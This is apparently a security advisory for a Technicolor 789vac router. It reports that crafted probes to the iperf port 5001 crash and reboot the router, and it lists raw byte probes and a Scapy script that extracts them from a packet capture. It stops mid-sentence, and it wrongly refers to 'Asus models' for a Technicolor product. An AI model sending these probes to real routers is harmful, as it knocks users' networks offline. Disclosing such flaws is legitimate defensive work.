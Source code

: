 ```yaml
---
layout: post
title: -
date: 2025-01-15
comments: -
categories: vulnerability
---
```



## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT 2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We analyzed the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1: b'\x01\x00\x00\xfd\xce\xfa\x0b\xb0\xa0\x00\x00\x00MMS\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x01\x00\x03\x00\xf0\xf0\xf0\xf0\x0b\x00\x04\x00\x1c\x00\x03\x00N\x00S\x00P\x00l\x00a\x00y\x00e\x00r\x00/\x009\x00.\x000\x00.\x000\x00.\x002\x009\x008\x000\x00;\x00 \x00{\x000\x000\x000\x000\x00A\x00A\x000\x000\x00-\x000\x00A\x000\x000\x00-\x000\x000\x00a\x000\x00-\x00A\x00A\x000\x00A\x00-\x000\x000\x000\x000\x00A\x000\x00A\x00A\x000\x00A\x00A\x000\x00}\x00\x00\x00\xe0m\xdf_'
Probe #2: b'\x00\x00\x00\x1f\x00\x00\x00\x00\x00\x00\x00\x0cGetClassName\x00\x00\x00\x02\x04\x00\x00\x00\x00\x01\x00'
Probe #3: b'\r\n\r\n'
Probe #4: b'GET / HTTP/1.0\r\n\r\n'
Probe #5: b'OPTIONS / HTTP/1.0\r\n\r\n'
Probe #6: b'OPTIONS / RTSP/1.0\r\n\r\n'
Probe #7: b'\x80\x00\x00(r\xfe\x1d\x13\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xa0\x00\x01\x97|\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #8: b'\x00\x1e\x00\x06\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x07version\x04bind\x00\x00\x10\x00\x03'
Probe #9: b'\x00\x0c\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #10: b'HELP\r\n'
Probe #11: b'\x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xd7\xf7\xba,\xee\xea\xb2`~\xf3\x00\xfd\x82{\xb9\xd5\x96\xc8w\x9b\xe6\xc4\xdb<=\xdbo\xef\x10n\x00\x00(\x00\x16\x00\x13\x00\n\x00f\x00\x05\x00\x04\x00e\x00d\x00c\x00b\x00a\x00`\x00\x15\x00\x12\x00\t\x00\x14\x00\x11\x00\x08\x00\x06\x00\x03\x01\x00'
```

Probe scraping: 
```
from scapy.all import rdpcap

# pcapng file
file_path = 'crash.pcapng'  # Replace with your file path
packets = rdpcap(file_path)

# Target parameters
target_ip = "ip_addr" 
target_port = 5001

# Payload extraction
probes = []
for packet in packets:
    if packet.haslayer("TCP") and packet["TCP"].dport == target_port and packet["IP"].dst == target_ip:
        payload = bytes(packet["TCP"].payload)
        if payload and payload not in probes:  # Avoid duplicates
            probes.append(payload)

for i, probe in enumerate(probes, start=1):
    print(f"Probe #{i}: {probe}")
```

The probe #7 is the chosen one that leads 


 
